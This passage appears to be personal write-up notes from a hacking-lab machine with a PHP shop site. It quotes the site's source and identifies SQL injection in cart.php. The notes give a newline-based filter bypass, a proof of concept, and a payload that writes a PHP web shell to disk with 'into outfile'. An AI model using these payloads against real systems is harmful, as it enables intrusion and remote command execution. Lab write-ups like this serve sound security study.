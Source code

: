 ```php
}
// Template header, feel free to customize this
function template_header($title) {
$num_items_in_cart = isset($_SESSION['cart']) ? count($_SESSION['cart']) : 0;
echo <<<EOT
<!DOCTYPE html>
```

- products.php -> sqli, p [x]

```php
<?php
// The amounts of products to show on each page
$num_products_on_each_page = 4;
// The current page - in the URL, will appear as index.php?page=products&p=1, index.php?page=products&p=2, etc...
$current_page = isset($_GET['p']) && is_numeric($_GET['p']) ? (int)$_GET['p'] : 1;
// Select products ordered by the date added
$stmt = $pdo->prepare('SELECT * FROM products ORDER BY date_added DESC LIMIT ?,?');
// bindValue will allow us to use an integer in the SQL statement, which we need to use for the LIMIT clause
$stmt->bindValue(1, ($current_page - 1) * $num_products_on_each_page, PDO::PARAM_INT);
$stmt->bindValue(2, $num_products_on_each_page, PDO::PARAM_INT);
$stmt->execute();
// Fetch the products from the database and return the result as an Array
$products = $stmt->fetchAll(PDO::FETCH_ASSOC);
// Get the total number of products
$total_products = $pdo->query('SELECT * FROM products')->rowCount();
?>
```

- cart.php -> http://10.10.11.229/shop/index.php?page=cart -> product_id is not precompiled -> sqli

  - how to bypass pre_match -> [PHP Tricks - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-.)
  - **%0A** -> bypass
  - `quantity=1&product_id=1%0A';sql statement`
  - `select 'php_cmd' into outfile 'filename' -- -` -> filename [?] -> secure_file_priv
  - The default value of MySQL's secure_file_priv system variable may vary in different versions and configurations. In MySQL 5.7.6 and later, if you do not explicitly set this value during installation, the default value is usually set to the MySQL server's data directory. -> **/var/lib/mysql/**
  - POC: `1%0A';select '<?php phpinfo();?>' into outfile '/var/lib/mysql/a.php' -- -1`
  - Payload: `1%0A';select '<?php system($_GET["cmd"]);?>' into outfile '/var/lib/mysql/b.php' -- -1`

```php
<?php
// If the user clicked the add to cart button on the product page we can check for the form data
if (isset($_POST['product_id'], $_POST['quantity'])) {
    // Set the post variables so we easily identify them, also make sure they are integer
    $product_id = $_POST['product_id'];
    $quantity = $_POST['quantity'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
        echo '';
    } else {
        // Construct the SQL statement with a vulnerable parameter
        $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'";
        // Execute the SQL statement without any sanitization or parameter binding
        $product = $pdo->query($sql)->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if ($product && $quantity > 0) {
            // Product exists in database, now we can create/update the session variable for the cart
            if (isset($_SESSION['cart']) && is_array($_SESSION['cart'])) {
                if (array_key_exists($product_id, $_SESSION['cart'])) {
```